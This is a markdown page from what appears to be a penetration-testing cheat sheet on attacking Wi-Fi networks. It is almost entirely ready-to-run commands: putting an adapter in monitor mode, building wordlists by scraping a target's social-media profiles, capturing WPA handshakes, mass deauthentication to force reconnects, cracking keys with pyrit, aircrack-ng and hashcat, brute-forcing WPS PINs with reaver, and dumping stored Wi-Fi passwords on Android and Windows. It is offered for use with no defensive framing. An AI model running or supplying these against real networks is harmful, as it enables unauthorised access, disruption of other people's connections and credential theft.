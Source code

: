 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **Monitor Mode** 

{% highlight bash %}
$ sudo airmon-ng start wlan0
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0
{% endhighlight %}

> **Break WPA** 

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
# Rule set descriptions http://contest-2010.korelogic.com/rules.html
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profiles
{% endhighlight %}

> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



